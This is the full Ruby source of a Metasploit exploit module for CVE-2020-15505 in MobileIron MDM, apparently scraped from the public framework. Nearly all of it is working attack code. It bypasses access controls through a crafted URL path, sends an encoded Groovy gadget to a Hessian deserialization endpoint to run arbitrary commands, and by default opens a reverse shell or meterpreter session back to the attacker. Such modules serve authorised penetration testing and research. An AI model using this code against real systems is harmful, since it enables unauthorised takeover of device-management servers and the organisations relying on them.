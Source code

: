 EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote

      Rank = ExcellentRanking

      prepend Msf::Exploit::Remote::AutoCheck
      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::CmdStager

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'MobileIron MDM Hessian-Based Java Deserialization RCE',
            'Description' => %q{
              This module exploits an ACL bypass in MobileIron MDM products to
              execute a Groovy gadget against a Hessian-based Java deserialization
              endpoint.
            },
            'Author' => [
              'Orange Tsai', # Discovery
              'rootxharsh', # Exploit
              'iamnoooob', # Exploit
              'wvu' # Module
            ],
            'References' => [
              ['CVE', '2020-15505'],
              ['URL', 'https://www.mobileiron.com/en/blog/mobileiron-security-updates-available'],
              ['URL', 'https://blog.orange.tw/2020/09/how-i-hacked-facebook-again-mobileiron-mdm-rce.html'],
              ['URL', 'https://github.com/httpvoid/CVE-Reverse/tree/master/CVE-2020-15505']
            ],
            'DisclosureDate' => '2020-09-12', # Public disclosure
            'License' => MSF_LICENSE,
            'Platform' => ['unix', 'linux'],
            'Arch' => [ARCH_CMD, ARCH_X86, ARCH_X64],
            'Privileged' => false,
            'Targets' => [
              [
                'Unix Command',
                {
                  'Platform' => 'unix',
                  'Arch' => ARCH_CMD,
                  'Type' => :unix_cmd,
                  'DefaultOptions' => {
                    'PAYLOAD' => 'cmd/unix/reverse_python_ssl'
                  }
                }
              ],
              [
                'Linux Dropper',
                {
                  'Platform' => 'linux',
                  'Arch' => [ARCH_X86, ARCH_X64],
                  'Type' => :linux_dropper,
                  'DefaultOptions' => {
                    'CMDSTAGER::FLAVOR' => :bourne,
                    'PAYLOAD' => 'linux/x64/meterpreter/reverse_tcp'
                  }
                }
              ]
            ],
            'DefaultTarget' => 0,
            'DefaultOptions' => {
              'SSL' => true
            },
            'Notes' => {
              'Stability' => [CRASH_SAFE],
              'Reliability' => [REPEATABLE_SESSION],
              'SideEffects' => [IOC_IN_LOGS, ARTIFACTS_ON_DISK]
            }
          )
        )

        register_options([
          Opt::RPORT(443),
          OptString.new('TARGETURI', [true, 'Base path', '/'])
        ])
      end

      def check
        # http://hessian.caucho.com/doc/hessian-1.0-spec.xtp#Call
        res = send_request_hessian('c')

        unless res
          return CheckCode::Unknown('Target did not respond to check.')
        end

        unless res.code == 200 && res.headers['Content-Type'] == 'application/x-hessian'
          return CheckCode::Safe('ACL bypass failed.')
        end

        CheckCode::Vulnerable('ACL bypass successful.')
      end

      def exploit
        print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")

        case target['Type']
        when :unix_cmd
          execute_command(payload.encoded)
        when :linux_dropper
          execute_cmdstager
        end
      end

      def execute_command(cmd, _opts = {})
        vprint_status("Executing command: #{cmd}")

        send_request_hessian(groovy_gadget(cmd))
      end

      def send_request_hessian(data)
        send_request_cgi(
          'method' => 'POST',
          'uri' => normalize_uri(target_uri.path, '/mifs/.;/services/LogService'),
          'ctype' => 'x-application/hessian',
          'headers' => {
            'Referer' => rand_text_english(8..42)
          },
          'data' => data
        )
      end

      def groovy_gadget(cmd)
        # http://hessian.caucho.com/doc/hessian-1.0-spec.xtp#Headers
        hessian = "c\x01\x00H\x00\x08#{rand_text_english(8)}"

        # Cale hates me for this
        hessian << Rex::Text.zlib_inflate(Rex::Text.decode_base64(
          <<~HESSIAN
            eNpFj01PwkAQhkcRBUz8CBe9cfVg+Q3YYDBKIS7h4mnbju2S3W4zuy20v95BQS6bfXffPPPM
            3APMPQwzsrZugsorHUx3pSxSK+Ae/25LsiWSV+i4CgJ6uXR5aFPk+GQpCxK+57JywQFDVeGV
            wWCOPrdpqK2rCAVcmt8soOu8JC/gltBZXaPwJD1mzRvAnt9PFWHiVY2Hh0cjd8pUJqpMjLT4
            XkqSzEJyh0IvRY0ZM9joYSNrGWhZZAGLJ+jcS6V0iiRgSPiHnhJZ4qkozauAq8Qaw4uuNcM6
            nMexKsYuF3D+nLDlbBK+j1az6Wj5MYmmq/bf0FITCbjGolZkC4OF59g/DnERN7t2WyB9MvhC
            wMDnyi3iDX9y8aY8rrFqSnRrD3dfJ/dQS+f2QsCUTpxso7Zt95yz09EOfgCmKo1k
          HESSIAN
        ))

        hessian.sub("\x00\x0fHACK THE PLANET", "#{[cmd.length].pack('n')}#{cmd}")
      end

    end